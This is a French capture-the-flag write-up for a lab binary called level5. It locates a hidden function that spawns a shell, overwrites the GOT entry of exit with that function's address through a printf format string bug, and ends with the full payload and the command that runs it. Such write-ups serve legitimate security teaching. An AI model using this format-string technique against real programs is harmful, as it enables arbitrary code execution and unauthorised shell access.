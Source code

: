 # Format String Exploitation

En décompilant l'exécutable, on se rend compte qu'il fait appel à la fonction `printf` puis, dans un second temps, à `exit`. On remarque aussi la présence d'une fonction `o` qui n'est jamais appelée et qui semble lancer un appel `system` avec `"/bin/sh"` en argument.

L'objectif est donc d'utiliser `printf` pour tenter de faire appel à la fonction `o`. La solution que nous avons trouvé est de remplacer l'adresse de la fonction `exit`, par l'adresse  de la fonction `o`.

Il nous faut d'abord trouver l'adresse de ces deux fonctions. En utilisant `gdb`, on exécute :
```
> gdb level5
[...]
```

---
**Adresse de `o`**

```
> (gdb) x o
0x80484a4 <o>:	0x83e58955
```
L'adresse de la fonction `o` est `0x80484a4`

**Adresse de `exit`**

Pour trouver l'adresse de `exit`, on va trouver l'endroit ou le programme y fait appel.
```
> (gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	    push   %ebp
   0x080484c3 <+1>:	    mov    %esp,%ebp
   0x080484c5 <+3>:	    sub    $0x218,%esp
   0x080484cb <+9>:	    mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```
`call` étant une instruction raccourcie, on va désassembler cette instruction :
```
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	    jmp    *0x8049838
   0x080483d6 <+6>:	    push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
```
On remarque que ce `call` fait un `jump` à l'adresse `0x8049838`, qui est en fait l'adresse de `exit`.

L'adresse de `exit` est donc `0x8049838`.

---

À chaque utilisation de la faille `format string`, il est important de connaitre l'emplacement mémoire exact où `printf` écrit pour exploiter cette écriture.

Pour cela, on `break` sur l'instruction suivant l'appel à `printf`.
```
> (gdb) b *0x080484f8
[...]
```
On `run` puis on fourni en entrée standard 4 caractères `A` ainsi que `%1$p` qui vas nous permettre d'imprimer le premier argument de `printf`.
```
> (gdb) r
AAAA%p
AAAA0x200
```
Nous savons donc que le contenu du premier argument de `printf` est `0x200`. 

Nous allons maintenant determiner à quelle adresse a été écrite notre chaine de caractère par rapport au premier argument de `printf`.
```
printf_offset = adresse_buffer - adresse_1er_argument
```

---

**Adresse du premier argument**

En imprimant les premiers registres depuis `esp`, on est capable de retrouver notre premier argument affiché par notre `printf` précédement.
```
> (gdb) x/10wx $esp
0xbffff500:	0xbffff510	0x00000200	0xb7fd1ac0	0xb7ff37d0
                        ^
                        1er argument
0xbffff510:	0x70243125	0xb7e2000a	0x00000001	0xb7fef305
0xbffff520:	0xbffff578	0xb7fde2d4
```
Notre premier argument est donc stocké à l'adresse de `esp+0x04`.
```
> (gdb) x $esp+0x04
0xbffff504:	0x00000200
```
L'adresse du premier argument est `0xbffff504`.

**Adresse du `buffer`**

L'adresse du buffer est contenue dans le premier registre pointé par `esp`.
```
> (gdb) x $esp
0xbffff500:     0xbffff510
> (gdb) x 0xbffff510
0xbffff510:	    0x41414141
```
L'adresse du `buffer` est `0xbffff510`.

--- 

On peut donc remplacer les inconnues de notre équation :
```
printf_offset = adresse_buffer - adresse_1er_argument
              = 0xbffff510 - 0xbffff504
              = 0xc
              = 12 (base 10)
```
On divise notre résultat par `4` car chaque registre contient 4 octets. Puis on ajoute `1` pour pointer sur notre `buffer` :
```
12 / 4 + 1 = 4
```
Nous allons devoir utiliser le `4ème` argument de `printf`.

On reprend ensuite la même logique que le `level3`. De manière abstraite, voici comment nous allons construire notre commande :
```
[adresse_exit] [adresse_o - 4] [%4$n]
^              ^
4 octets       adresse_o
               octets
```

Nous écrivons l'adresse de `exit` avec la notation `little-endian` :
```
\x38\x98\x04\x08
```
Nous pouvons écrire un grand nombre de caractère sans risquer un `overflow` grace au modifier `%d`. Donner un nombre en modifier à `%d` permet d'imprimer un `buffer` qui ne sera pas stocké dans la stack.
```
adresse_o = 0x080484a4
          = 134513828
```
On retire `4` en raison des `4` octets affichés précédement.
```
134513828 - 4 = 134513824
```
```
%134513824d
```
Enfin on indique à `printf` d'imprimer le nombre de caractère écrit à l'adresse de `exit` avec le modifier `%n`. L'adresse de `exit` étant stockée dans le `4ème` argument :
```
%4$n
```
Notre chaine de caractères à envoyer au programme sera la suivante :
```
"\x38\x98\x04\x08" + "%134513824d" + "%4$n"
```
On exécute donc :
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/command
```
```
cat /tmp/command - | ./level5
```
